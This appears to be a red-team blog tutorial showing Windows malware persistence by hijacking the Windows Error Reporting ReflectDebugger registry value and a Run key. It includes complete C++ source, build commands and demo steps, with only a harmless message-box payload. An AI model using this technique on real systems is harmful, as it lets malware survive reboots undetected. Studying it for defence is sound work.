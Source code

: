 ```yaml
---
title:  "Malware development: persistence - part 18. Windows Error Reporting. Simple C++ example."
date:   2022-11-02 03:00:00 +0300
header:
  teaser: "/assets/images/78/2022-11-02_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/78/2022-11-02_05-28.png){:class="img-responsive"}    

This post is the just result of self-researching one of the interesting malware persistence trick: via `WerFault.exe`.     

### WerFault.exe

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

![pers](/assets/images/78/2022-11-02_04-48.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_04-49.png){:class="img-responsive"}    

Add another filter:    

![pers](/assets/images/78/2022-11-02_04-51.png){:class="img-responsive"}    

As a result, we have a loophole for hijacking this value:     

![pers](/assets/images/78/2022-11-02_04-52.png){:class="img-responsive"}    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

### practical example

For simplicity, as usually, my "evil" application is just `meow-meow` messagbox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Also, I used [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
  RegCloseKey(hkey);
}
```

As a result, the final source code looks something like this (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-54.png){:class="img-responsive"}    

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-55.png){:class="img-responsive"}    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

![pers](/assets/images/78/2022-11-02_04-56.png){:class="img-responsive"}    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/78/2022-11-02_04-58.png){:class="img-responsive"}    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

![pers](/assets/images/78/2022-11-02_05-08.png){:class="img-responsive"}    

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

![pers](/assets/images/78/2022-11-02_05-10.png){:class="img-responsive"}    

Then, logout and login:    

![pers](/assets/images/78/2022-11-02_05-13.png){:class="img-responsive"}    

and after a few seconds our `meow-meow` messagebox is popped-up as expected:    

![pers](/assets/images/78/2022-11-02_05-14.png){:class="img-responsive"}    

You can check the properties of `hack.exe` via Process Hacker 2:     

![pers](/assets/images/78/2022-11-02_05-15.png){:class="img-responsive"}    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

![pers](/assets/images/78/2022-11-02_05-17.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22_1.png){:class="img-responsive"}    

Which can you notice if you decide to "return everything back to its place".    

So, as you can see everything is worked perfectly! =^..^=

> The next one was supposed to be 17, but it will come out together with the third part about the theft of tokens. I couldn't understand for 10 minutes why it doesn't work for me :)    

![pers](/assets/images/78/2022-11-02_05-06.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((/tutorial/2022/04/20/malware-pers-1.html))       
[source code in github](https://github.com/cocomelonc/2022-11-02-malware-pers-18)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
